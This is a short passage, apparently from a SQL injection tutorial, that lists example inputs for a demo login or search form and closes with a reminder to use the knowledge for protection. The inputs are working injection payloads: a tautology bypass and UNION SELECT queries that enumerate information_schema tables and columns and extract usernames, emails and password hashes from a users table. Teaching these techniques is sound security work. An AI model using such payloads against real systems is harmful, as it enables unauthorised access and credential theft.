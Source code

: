 Here are some examples of some input to try:

```
ed@example.com

a" OR 1 = 1 -- 

a" UNION ALL SELECT TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES; -- 

a" UNION ALL SELECT COLUMN_NAME,COLUMN_TYPE from information_schema.COLUMNS where TABLE_NAME = "my_users"; -- 

a" UNION ALL SELECT user_login,user_pass from my_users; -- 

a" UNION ALL SELECT user_email,user_pass from my_users; -- 
```

And I think it goes without saying, use this knowledge for learning how to protect yourself, and for the greater good ;)
